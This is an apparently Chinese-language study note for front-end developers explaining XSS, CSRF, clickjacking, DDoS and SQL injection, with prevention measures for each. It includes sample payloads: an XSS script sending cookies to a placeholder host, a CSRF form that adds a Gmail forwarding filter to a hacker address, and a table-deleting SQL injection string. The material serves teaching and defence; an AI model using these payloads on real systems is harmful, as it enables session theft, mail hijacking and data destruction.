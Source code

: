 ```yaml
---
autoGroup-1: 网络基础
sidebarDepth: 3
title: 21. 前端攻击
---
```


## 前端攻击手段

### 1. XSS

Cross Site Scripting 跨站脚本攻击

用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。<br>
该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
    var img = document.createElement('img')
    img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

最简单的解决方式：替换特殊字符

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如
- https://www.npmjs.com/package/xss
- https://www.npmjs.com/package/escape-html

现代框架默认会屏蔽 XSS 攻击，除非自己手动开启
- Vue `v-html`
- React `dangerouslySetInnerHTML`


### 2. CSRF

Cross-site request forgery 跨站请求伪造

请看下面的故事
- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了

但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。<br>
因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。

```html
<form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    <input type="hidden" name="cf2_emc" value="true"/> 
    <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
    .....
    <input type="hidden" name="irf" value="on"/> 
    <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
</form> 
<script> 
    document.forms[0].submit();

    // PS：有些是 post 请求，有些是 get 请求
    //     get 请求如果用 img.src 还可以规避跨域，更加危险
</script>
```

邮件经常用来接收验证码，这是很危险的事情。<br>
当然了，后来 Gmail 修复了这个漏洞。但新的故事仍在不断发生中。

CSRF 的过程
- 用户登录了 `a.com` ，有了 cookie
- 黑客引诱用户访问 `b.com` 网页，并在其中发起一个跨站请求 `a.com/api/xxx`
- `a.com` API 收到 cookie ，误以为是真实用户的请求，就受理了

CSRF 的预防
- 严格的跨域请求限制
- 为 cookie 设置 `SameSite` 不随跨域请求被发送 `Set-Cookie: key1=val1; key2=val2; SameSite=Strict;`
- 关键接口使用短信验证码等双重验证

### 3. 点击劫持 Clickjacking

小明被诱导到一个钓鱼网站，点击了一个按钮，其实已经关注了慕课网双越老师。因为他可能已经登录了慕课网。<br>
这可以是关注，也可以是付款转账等其他危险操作。

<img :src="$withBase('/basicComputer/Network点击劫持.png')" alt="点击劫持"> 

点击劫持的原理：黑客在自己的网站，使用隐藏的 `<iframe>` 嵌入其他网页，诱导用户按顺序点击。

使用 JS 预防

```js
// 判断top与self的域名是否一致
if (top.location.hostname !== self.location.hostname) {
    alert("您正在访问不安全的页面，即将跳转到安全页面！")
    top.location.href = self.location.href
}
```

增加 http header `X-Frame-Options:SAMEORIGIN` ，让 `<iframe>` 只能加载同域名的网页。让我的网页在当前自己的域名，iframe加载。

PS：点击劫持，攻击那些需要用户点击操作的行为。CSRF 不需要用户知道，偷偷完成。

### 4. DDoS
Distributed denial-of-service 分布式拒绝服务

通过大规模的网络流量淹没目标服务器或其周边基础设施，以破坏目标服务器、服务或网络正常流量的恶意行为。<br>
类似于恶意堵车，妨碍正常车辆通行。

网络上的设备感染了恶意软件，被黑客操控，同时向一个域名或者 IP 发送网络请求。因此形成了洪水一样的攻击效果。<br>
由于这些请求都来自分布在网络上的各个设备，所以不太容易分辨合法性。

DDoS 的预防：软件层面不好做，可以选择商用的防火墙，如[阿里云 WAF](https://www.aliyun.com/product/waf?spm=5176.7967425.J_8058803260.34.3d017748VkTlhL)。

PS：阮一峰的网站就曾遭遇过 DDoS 攻击 https://www.ruanyifeng.com/blog/2018/06/ddos.html

### 5. SQL 注入

普通的登录方式，输入用户名 `zhangsan` 、密码 `123` ，然后服务端去数据库查询。<br>
会执行一个 sql 语句 `select * from users where username='zhangsan' and password='123'` ，然后判断是否找到该用户。

如果用户输入的是用户名 `' delete from users where 1=1; --` ，密码 `'123'`<br>
那生成的 sql 语句就是 `select * from users where username='' delete from users where 1=1; --' and password='123'`<br>
这样就会把 `users` 数据表全部删除。

防止 SQL 注入：服务端进行特殊字符转换，如把 `'` 转换为 `\'`

## 答案

- XSS
- CSRF
- 点击劫持
- DDoS
- SQL 注入